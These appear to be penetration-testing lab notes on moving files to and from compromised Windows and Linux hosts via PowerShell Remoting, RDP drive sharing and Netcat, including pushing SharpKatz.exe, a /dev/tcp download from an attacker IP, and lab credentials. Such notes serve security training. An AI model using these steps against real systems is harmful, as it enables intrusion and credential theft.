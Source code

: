 ## Powershell Session File Transfer
There may be scenarios where HTTP, HTTPS, or SMB are unavailable. If that's the case, we can use [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), aka WinRM, to perform file transfer operations.

[PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) allows us to execute scripts or commands on a remote computer using PowerShell sessions. Administrators commonly use PowerShell Remoting to manage remote computers in a network, and we can also use it for file transfer operations. By default, enabling PowerShell remoting creates both an HTTP and an HTTPS listener. The listeners run on default ports TCP/5985 for HTTP and TCP/5986 for HTTPS.

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration

Example `DC01` -> `DATABASE01`
###### Test connection to 5985 on DATABASE01
```powershell
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```
###### Start PS Remoting session
```powershell
$Session = New-PSSession -ComputerName DATABASE01
```
###### Copy file from local host to DATABASE01
```powershell
Copy-Item -Path C:\secrets.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

## RDP
```bash
rdesktop 10.129.137.182 -d HTB -u administrator -p 'Password0@' -r disk:OP='/home/adot/opt'

xfreerdp3 /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:OP,/home/adot/opt
```

On Windows we can use `mstsc.exe`
![[Pasted image 20250106063450.png]]

## Netcat
#### Download
On compromised machine
```powershell
nc -l -p 8000 > pspy
ncat -l -p 8000 --recv-only > pspy
```

On our machine
```bash
nc -q 0 192.168.49.128 8000 < pspy
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```
---
On our machine
```bash
nc -l -p 443 -q 0 < SharpKatz.exe
ncat -l -p 443 --send-only < SharpKatz.exe
```

On compromised host
```bash
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```
